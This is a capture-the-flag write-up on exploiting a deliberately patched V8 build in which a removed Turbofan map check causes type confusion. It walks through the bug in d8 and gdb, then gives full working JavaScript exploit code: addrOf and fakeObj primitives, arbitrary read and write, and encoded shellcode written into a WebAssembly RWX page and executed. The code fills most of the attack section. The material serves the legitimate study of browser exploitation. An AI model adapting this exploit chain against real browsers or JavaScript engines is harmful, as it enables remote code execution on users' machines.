


## TL;DR

::::important[TL;DR]
Reading the patch, we can see that the author comments out a **Deoptimize** instruction. That creates a **type confusion** bug. From there, I trace how **Turbofan** handles the code in assembly, reproduce the behavior in the `d8` REPL, build `addrOf` / `fakeObj` primitives, and finish by popping a shell through a **WebAssembly RWX page**.
::::


## Introduction

I've been grinding V8 challenges from old CTFs. Most of the easier ones give you a clear OOB bug in an array or a simple type confusion vulnerability and let you exploit it directly. After solving a couple of those, it was time to tackle something harder: exploiting the V8 Turbofan compiler with basically zero experience.

Join me in this writeup while I go through the basic theory, how I approached the problem with no experience, how I found the bug, and finally how I exploited it.


## Theory

Since I had zero experience with Turbofan, I started by reading the [introduction-to-turbofan](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/#type-lowering) blog.  
It goes into great detail on the inner workings of the Turbofan compiler and the optimization pipeline, and in the end the author solves a challenge that showcases an overflow vulnerability. It was absolutely worth the read.

I definitely did not understand everything, and I skipped some of the hard parts, but that was fine. At that stage, I mostly wanted to know what kind of things I should expect.

::::note[Disclaimer]
I am very new to Turbofan internals, so some parts of this post are **high-level mental models**  and nothing is 100% correct :P.
::::

## Challenge

For the challenge, we are given three files: the `d8` binary, the `source` folder, and `server.py`.
```
├── d8
├── server.py
├── source
│   ├── build.sh
│   ├── compile.sh
│   ├── Dockerfile
│   ├── patch
│   └── REVISION
```        

Naturally, I started by reading the `patch` file, which contains the changes made by the challenge author.

``` diff
diff --git a/src/compiler/effect-control-linearizer.cc b/src/compiler/effect-control-linearizer.cc
index d64c3c80e5..6bbd1e98b0 100644
--- a/src/compiler/effect-control-linearizer.cc
+++ b/src/compiler/effect-control-linearizer.cc
@@ -1866,8 +1866,9 @@ void EffectControlLinearizer::LowerCheckMaps(Node* node, Node* frame_state) {
       Node* map = __ HeapConstant(maps[i]);
       Node* check = __ TaggedEqual(value_map, map);
       if (i == map_count - 1) {
-        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
-                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
+        // This makes me slow down! Can't have! Gotta go fast!!
+        // __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
+        //                     frame_state, IsSafetyCheck::kCriticalSafetyCheck);
       } else {
         auto next_map = __ MakeLabel();
         __ BranchWithCriticalSafetyCheck(check, &done, &next_map);
@@ -1888,8 +1889,8 @@ void EffectControlLinearizer::LowerCheckMaps(Node* node, Node* frame_state) {
       Node* check = __ TaggedEqual(value_map, map);
 
       if (i == map_count - 1) {
-        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
-                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
+        // __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
+        //                     frame_state, IsSafetyCheck::kCriticalSafetyCheck);
       } else {
         auto next_map = __ MakeLabel();
         __ BranchWithCriticalSafetyCheck(check, &done, &next_map);
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index 999e8c2b96..72b729d94e 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
@@ -1107,6 +1107,11 @@ void Shell::ModuleResolutionSuccessCallback(
   resolver->Resolve(realm, module_namespace).ToChecked();
 }
 
+void Shell::Breakpoint(const v8::FunctionCallbackInfo<v8::Value>& args) {
+  __asm__("int3");
+}
+
+
 void Shell::ModuleResolutionFailureCallback(
     const FunctionCallbackInfo<Value>& info) {
   std::unique_ptr<ModuleResolutionData> module_resolution_data(
@@ -2425,40 +2430,12 @@ Local<String> Shell::Stringify(Isolate* isolate, Local<Value> value) {
 
 Local<ObjectTemplate> Shell::CreateGlobalTemplate(Isolate* isolate) {
   Local<ObjectTemplate> global_template = ObjectTemplate::New(isolate);
-  global_template->Set(Symbol::GetToStringTag(isolate),
-                       String::NewFromUtf8Literal(isolate, "global"));
+  // Remove some unintented solutions
   global_template->Set(isolate, "version",
                        FunctionTemplate::New(isolate, Version));
+  global_template->Set(isolate, "Breakpoint", FunctionTemplate::New(isolate, Breakpoint));
 
   global_template->Set(isolate, "print", FunctionTemplate::New(isolate, Print));
-  global_template->Set(isolate, "printErr",
-                       FunctionTemplate::New(isolate, PrintErr));
-  global_template->Set(isolate, "write", FunctionTemplate::New(isolate, Write));
-  global_template->Set(isolate, "read", FunctionTemplate::New(isolate, Read));
-  global_template->Set(isolate, "readbuffer",
-                       FunctionTemplate::New(isolate, ReadBuffer));
-  global_template->Set(isolate, "readline",
-                       FunctionTemplate::New(isolate, ReadLine));
-  global_template->Set(isolate, "load", FunctionTemplate::New(isolate, Load));
-  global_template->Set(isolate, "setTimeout",
-                       FunctionTemplate::New(isolate, SetTimeout));
-  // Some Emscripten-generated code tries to call 'quit', which in turn would
-  // call C's exit(). This would lead to memory leaks, because there is no way
-  // we can terminate cleanly then, so we need a way to hide 'quit'.
-  if (!options.omit_quit) {
-    global_template->Set(isolate, "quit", FunctionTemplate::New(isolate, Quit));
-  }
-  global_template->Set(isolate, "testRunner",
-                       Shell::CreateTestRunnerTemplate(isolate));
-  global_template->Set(isolate, "Realm", Shell::CreateRealmTemplate(isolate));
-  global_template->Set(isolate, "performance",
-                       Shell::CreatePerformanceTemplate(isolate));
-  global_template->Set(isolate, "Worker", Shell::CreateWorkerTemplate(isolate));
-  // Prevent fuzzers from creating side effects.
-  if (!i::FLAG_fuzzing) {
-    global_template->Set(isolate, "os", Shell::CreateOSTemplate(isolate));
-  }
-  global_template->Set(isolate, "d8", Shell::CreateD8Template(isolate));
 
 #ifdef V8_FUZZILLI
   global_template->Set(
@@ -2467,11 +2444,6 @@ Local<ObjectTemplate> Shell::CreateGlobalTemplate(Isolate* isolate) {
       FunctionTemplate::New(isolate, Fuzzilli), PropertyAttribute::DontEnum);
 #endif  // V8_FUZZILLI
 
-  if (i::FLAG_expose_async_hooks) {
-    global_template->Set(isolate, "async_hooks",
-                         Shell::CreateAsyncHookTemplate(isolate));
-  }
-
   return global_template;
 }
 
@@ -2673,10 +2645,10 @@ void Shell::Initialize(Isolate* isolate, D8Console* console,
             v8::Isolate::kMessageLog);
   }
 
-  isolate->SetHostImportModuleDynamicallyCallback(
-      Shell::HostImportModuleDynamically);
-  isolate->SetHostInitializeImportMetaObjectCallback(
-      Shell::HostInitializeImportMetaObject);
+  // isolate->SetHostImportModuleDynamicallyCallback(
+  //     Shell::HostImportModuleDynamically);
+  // isolate->SetHostInitializeImportMetaObjectCallback(
+  //     Shell::HostInitializeImportMetaObject);
 
 #ifdef V8_FUZZILLI
   // Let the parent process (Fuzzilli) know we are ready.
diff --git a/src/d8/d8.h b/src/d8/d8.h
index a9f6f3bc8b..2513761fa6 100644
--- a/src/d8/d8.h
+++ b/src/d8/d8.h
@@ -415,6 +415,8 @@ class Shell : public i::AllStatic {
     kNoProcessMessageQueue = false
   };
 
+  static void Breakpoint(const v8::FunctionCallbackInfo<v8::Value>& args);
+
   static bool ExecuteString(Isolate* isolate, Local<String> source,
                             Local<Value> name, PrintResult print_result,
                             ReportExceptions report_exceptions,

```

<br>

The only part that really matters is this snippet.     
Reading the code, all I could say at first was: the author commented out part of the logic, and the function is called `LowerCheckMaps`, so it clearly affects the lowering of map checks.

``` diff
       if (i == map_count - 1) {
-        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
-                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
+        // This makes me slow down! Can't have! Gotta go fast!!
+        // __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
+        //                     frame_state, IsSafetyCheck::kCriticalSafetyCheck);
       } else {
```

The `LowerCheckMaps` function converts a `CheckMaps` instruction into a lower-level representation. In general, the point of lowering is to make the code faster by translating higher-level nodes into lower-level operations.

Think of a `LowerCheckMaps` node like your parents telling you to go buy milk. It is a high-level instruction that implies a whole sequence of actions. Lowering is like getting the detailed version instead: leave the house, walk left for five minutes, turn right, buy the milk, and come back. (gemini gave me this example xD)

### Bigger Picture

Now that I had the function that changed, I visited my local copy of the V8 compiler (cloned and compiled after following Faith's [writeup](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)).

This is the function that was modified. I only kept the branch the author changed, to simplify the code. 

```c++
void EffectControlLinearizer::LowerCheckMaps(Node* node, Node* frame_state) {
  CheckMapsParameters const& p = CheckMapsParametersOf(node->op());
  Node* value = node->InputAt(0);

  ZoneHandleSet<Map> const& maps = p.maps();
  size_t const map_count = maps.size();

  if (p.flags() & CheckMapsFlag::kTryMigrateInstance) {
    ...
  } else {
    // [1]
    auto done = __ MakeLabel();                                                

    // [2]
    // Load the current map of the {value}.
    Node* value_map = __ LoadField(AccessBuilder::ForMap(), value);            

    for (size_t i = 0; i < map_count; ++i) {
      // [3]
      Node* map = __ HeapConstant(maps[i]);                                    
      Node* check = __ TaggedEqual(value_map, map);

      if (i == map_count - 1) {                                                
        // [5]
        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
      } else {
        // [4]
        auto next_map = __ MakeLabel();                                         
        __ BranchWithCriticalSafetyCheck(check, &done, &next_map);              
        __ Bind(&next_map);                                                     
      }
    }
    __ Goto(&done);
    __ Bind(&done);
  }
}
```

After abusing gemini to understand the code, this is what it seems to be doing *(trust me bro \:P)*:

1. `done = __ MakeLabel();` creates a label. Labels are used as jump targets, usually alongside `goto`.
2. It loads the map field and writes it to `value_map`. `LoadField(offset_of_field, src)` basically reads the map from memory.
3. It iterates over all the maps supported by the `LowerCheckMaps` node.
4. It checks whether the current map matches one of them using `TaggedEqual(value_map, map)`. If it matches, execution jumps to `done`; otherwise it continues to `next_map`.
5. If we are on the last map and `value_map` is still not one of the supported maps, it calls `DeoptimizeIfNot`.

::::note[High-level summary]
Turbofan expects this code to run only on a **known set of maps**. It walks through those supported maps and checks whether the current one matches. If it does, execution continues on the optimized path. If it does not, the engine **deoptimizes** and falls back to the slower, safer path.

In this challenge, that final safety check is commented out. So if we train Turbofan on one map and then feed it a different one later, the optimized code still runs and we get a **type confusion** bug.
::::

Nice. That gives us the rough theory.  
Now how do we get the `CheckMaps` node to appear in the first place?

### Turbolizer

This is where **Turbolizer** comes in. It is used for debugging and inspecting Turbofan output, and I just followed the `Introduction to TurboFan` writeup to set it up.

Then I asked gemini for some code that would give me a `CheckMaps` node. It gave me this:
```js
function Point(x, y) {
    this.x = x;
    this.y = y;
}

function loadX(obj) {
    return obj.x;
} 

const p1 = new Point([1.1,2.2]);
const p2 = new Point([2.2,3.3]);
%PrepareFunctionForOptimization(loadX);
loadX(p1);
loadX(p2);
%OptimizeFunctionOnNextCall(loadX);
loadX(p1);
```

I ran this `d8` command:
```bash
./d8 --allow-natives-syntax --trace-opt --trace-turbo --trace-turbo-path=. --trace-turbo-filter="loadX"  --shell main.js
```
- `--allow-natives-syntax`: enable runtime helper functions
- `--trace-opt --trace-turbo`: log optimization activity
- `--trace-turbo-path=. --trace-turbo-filter="loadX"`: output path for logs and function to optimize



That was easier than I expected. I thought I would have to fight a lot harder to get that node, but gemini explanation made the bug much easier to reason about.

Now that we have an optimized function, I played with it a bit in the `d8` REPL.

- **Before optimization**
```js
d8> let obj = {y : 69} 
undefined
d8> loadX(obj)
undefined
```

- **After optimization**
```js
d8> let obj = {y : 69} 
undefined
d8> loadX(obj)
69
```
That was a pretty nice find. Even though `loadX` was optimized for `Point` objects, I still got an output, and it gave me `69` (nice). That means Turbofan does not really care about the object I pass in here anymore; it just reads the first property slot and returns it.

Even though the idea already looked fairly clear, I was still mostly guessing. I wanted to see the actual instructions Turbofan produced.

So I used `%DebugPrint` to see what Turbofan was outputting.
```js
d8> %DebugPrint(loadX)
DebugPrint: 0x3c8408210e79: [Function] in OldSpace
 - map: 0x3c8408242281 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3c8408202811 <JSFunction (sfi = 0x3c8408184129)>
 - elements: 0x3c840804222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 
 - initial_map: 
 - shared_info: 0x3c8408210c91 <SharedFunctionInfo loadX>
 - name: 0x3c8408210b41 <String[5]: #loadX>
 - formal_parameter_count: 1
 - kind: NormalFunction
 - context: 0x3c8408210e2d <ScriptContext[4]>
 - code: 0x3c8400084001 <Code TURBOFAN>
 - source code: (obj) {
    return obj.x;
}
...
```

Then I inspected the `code: 0x3c8400084001 <Code TURBOFAN>` property more closely in `gdb`.
```bash
x /40i 0x3c8400084001 - 0x1 + 0x40
```



At this point I dumped the code into gemini for an explanation. I like assembly, but I know almost nothing about Turbofan or JS internals, so it was genuinely useful here.

From the image, the red part just checks whether the argument is a pointer and bails if it is not. The green part sets up the stack and makes sure there is no overflow. Everything after that is our compiled optimized function.

Here is a step-by-step breakdown of the code:

```js
  0x3c8400084072:	mov    rdx,QWORD PTR [rbp+0x18] // get obj map
  0x3c8400084076:	test   dl,0x1                   // make sure it's a ptr
  0x3c8400084079:	je     0x3c84000840ce           // return to c++ handler if not ptr
  0x3c840008407f:	mov    eax,DWORD PTR [rdx+0xb]  // load 'x' property [1] 
  0x3c8400084082:	add    rax,r13                  // save it to rax (return value)

  // return logic
  0x3c8400084085:	mov    rcx,QWORD PTR [rbp-0x18] 
    ...
  0x3c840008409f:	ret
```

In `[1]`, we can see that Turbofan does not care about the property name or the map anymore. It just returns whatever lives at the offset it expects. Seeing it directly in assembly made the behavior much easier for me to understand and debug.

Time to move on to the exploit.

### Exploitation 

Now that we understand the vulnerability and have a clean way to reproduce and debug it, let's build our primitives: `addrOf` and `fakeObj`.

I started by improving the optimized helper functions:
- `readFromArr`: Turbofan expects to read a double from the array, but I will put objects in it instead, which makes it easy to get an `addrOf` primitive.
- `writeToArr`: this gives us an easy way to build `fakeObj`.


```js
function ArrContainer(values){
    this.values = values;
}
function readFromArr(arr) {
    return arr.values[0];
}
function writeToArr(arr,index,value) {
    arr.values[index] = value;
}

const arr1 = new ArrContainer([1.1,2.2]);
const arr2 = new ArrContainer([2.2,3.3]);
%PrepareFunctionForOptimization(readFromArr);
readFromArr(arr1);
readFromArr(arr2);
%OptimizeFunctionOnNextCall(readFromArr);
readFromArr(arr1);

%PrepareFunctionForOptimization(writeToArr);
writeToArr(arr1,0,4.4);
writeToArr(arr2,1,3.3);
%OptimizeFunctionOnNextCall(writeToArr);
writeToArr(arr1,1,1.1);
```


### Primitives

```js
const addrOfArr = new ArrContainer([1.1,2.2]);
function addrOf(obj) {
    addrOfArr.values[0] = obj;
    return ftoi(readFromArr(addrOfArr)) & 0x00000000fffffffn;
}

const fakeObjArr = new ArrContainer([{},3.2]);
function fakeObj(addr) {
    addr = BigInt(addr);
    writeToArr(fakeObjArr,0,itof(addr));
    return fakeObjArr.values[0];
}
```

Using the type confusion, getting those primitives was pretty easy. For `addrOf`, I write `obj` into index `0` and call `readFromArr`; the optimized code treats it like a double and returns its raw bits. For `fakeObj`, I use an `ArrContainer` with an object in the first element, call `writeToArr` with my controlled address, and then read `fakeObjArr.values[0]`, which makes the engine treat that value as an object again.


### You know the rest

I reused some old WebAssembly RCE code from an earlier solve:
```js
function read(addr) {
    addr = BigInt(addr);
    if(addr % 2n == 0) {
        addr |= 1n;
    }
    rwArr[1] = itof((BigInt(2) << 32n)  | (addr  - 0x8n) );
    return ftoi(fakeObj(readElems)[0]);
}


function write(addr,val) {
    addr = BigInt(addr);
    val = BigInt(val);
    if(addr % 2n == 0) {
        addr |= 1n;
    }
    rwArr[1] = itof((BigInt(2) << 32n)  | (addr  - 0x8n) );
    fakeObj(readElems)[0] = itof(val)
}


let arbWriteArr = new ArrayBuffer(8);
let arbWriteDV = new DataView(arbWriteArr);
let arbWriteBS = addrOf(arbWriteArr) + BigInt(5 * 4);

function arbWrite(addr,value) {
    addr = BigInt(addr);
    value = BigInt(value);
    let top = (addr & 0xffffffff00000000n) >> 32n;
    let bottom = (addr & 0x00000000ffffffffn);
    write(arbWriteBS,bottom);
    write(arbWriteBS + 4n,top);
    arbWriteDV.setBigUint64(0,value,true);
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr_addr = (read(addrOf(wasm_instance) + 0x7cn) & 0x00000000ffffffffn) + 0x7fn
var rwx_page_addr =  read(rwx_page_addr_addr);
console.log("rwx_page_addr",hex(rwx_page_addr))


shellcode = [7075083857039864136n, 6077441066081939049n, 10377718067629877855n]
arbWrite(rwx_page_addr + BigInt(8 * 0),shellcode[0])
arbWrite(rwx_page_addr + BigInt(8 * 1),shellcode[1])
arbWrite(rwx_page_addr + BigInt(8 * 2),shellcode[2])

f();
```
 
If you are new to V8 exploitation, this may look like a lot, but the high-level flow is actually pretty small:

- **Create read and write primitives** using `fakeObj` and `addrOf`
- **Work around the `4 GB` limit** with an `arbWrite` primitive built from `ArrayBuffer` and `DataView`
- **Initialize a WebAssembly module** to get an `RWX` page
- **Leak the `RWX` page address** and write shellcode to it
- **Execute the payload** with `f()`


Here are some much more detailed writeups that explain the basics better:
- [Exploiting v8: *CTF 2019 oob-v8](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)
- [DownUnderCTF 2020: Is this pwn or web?](https://seb-sec.github.io/posts/archive/ductf2020/2020-09-28-ductf2020-pwn-or-web.html)
- [UTCTF 2025 E-Corp Part 2](https://samuzora.com/posts/utctf-2025)


### Final exploit

For the final remote exploit, I had to update a few offsets and remove the runtime functions `%OptimizeFunctionOnNextCall` and `%PrepareFunctionForOptimization`.

To remove the runtime helpers, just use a hot loop and repeatedly call the function you want to optimize. Turbofan sees that the function gets called many times with the same shape of arguments and decides it is worth optimizing.

```js
readFromArr(arr2);
for (let i = 0; i < 0x10000; i++) {
    readFromArr(arr1);
}
readFromArr(arr2);

writeToArr(arr1,0,4.4);
for (let i = 0; i < 0x10000; i++) {
    writeToArr(arr2,1,3.3);
}
writeToArr(arr1,1,1.1);
```

And finally, here is the full exploit (tested locally):

```js
var buf = new ArrayBuffer(8); 
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
function ftoi(val) { 
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
}
function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
function hex(val) {
    return "0x" + val.toString(16);
}


function ArrContainer(values){
    this.values = values;
}
function readFromArr(arr) {
    return arr.values[0];
}
function writeToArr(arr,index,value) {
    arr.values[index] = value;
}


const arr1 = new ArrContainer([1.1,2.2]);
const arr2 = new ArrContainer([2.2,3.3]);
readFromArr(arr2);
for (let i = 0; i < 0x10000; i++) {
    readFromArr(arr1);
}
readFromArr(arr2);


writeToArr(arr1,0,4.4);
for (let i = 0; i < 0x10000; i++) {
    writeToArr(arr2,1,3.3);
}
writeToArr(arr1,1,1.1);


const addrOfArr = new ArrContainer([1.1,2.2]);
function addrOf(obj) {
    addrOfArr.values[0] = obj;
    return ftoi(readFromArr(addrOfArr)) & 0x00000000fffffffn;
}

const fakeObjArr = new ArrContainer([{},3.2]);
function fakeObj(addr) {
    addr = BigInt(addr);
    writeToArr(fakeObjArr,0,itof(addr));
    return fakeObjArr.values[0];
}


let obj = {A : 1.1}


fd_Map = 0x0804222d082439f1n
let rwArr = [1.1,2.2,3.3,4.4,5.5];
rwElems = addrOf(rwArr) + (4n * 6n) + 8n;
rwArr[0] = itof(fd_Map);


function read(addr) {
    addr = BigInt(addr);
    if(addr % 2n == 0) {
        addr |= 1n;
    }
    rwArr[1] = itof((BigInt(2) << 32n)  | (addr  - 0x8n) );
    return ftoi(fakeObj(rwElems)[0]);
}


function write(addr,val) {
    addr = BigInt(addr);
    val = BigInt(val);
    if(addr % 2n == 0) {
        addr |= 1n;
    }
    rwArr[1] = itof((BigInt(2) << 32n)  | (addr  - 0x8n) );
    fakeObj(rwElems)[0] = itof(val)
}

let arbWriteArr = new ArrayBuffer(8);
let arbWriteDV = new DataView(arbWriteArr);
let arbWriteBS = addrOf(arbWriteArr) + BigInt(5 * 4);

function arbWrite(addr,value) {
    addr = BigInt(addr);
    value = BigInt(value);
    let top = (addr & 0xffffffff00000000n) >> 32n;
    let bottom = (addr & 0x00000000ffffffffn);
    write(arbWriteBS,bottom);
    write(arbWriteBS + 4n,top);
    arbWriteDV.setBigUint64(0,value,true);
}


var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr_addr = (read(addrOf(wasm_instance) + 0x7cn) & 0x00000000ffffffffn) + 0x7fn
var rwx_page_addr =  read(rwx_page_addr_addr);
console.log("rwx_page_addr",hex(rwx_page_addr))


shellcode = [7075083857039864136n, 6077441066081939049n, 10377718067629877855n]
arbWrite(rwx_page_addr + BigInt(8 * 0),shellcode[0])
arbWrite(rwx_page_addr + BigInt(8 * 1),shellcode[1])
arbWrite(rwx_page_addr + BigInt(8 * 2),shellcode[2])

f();
```
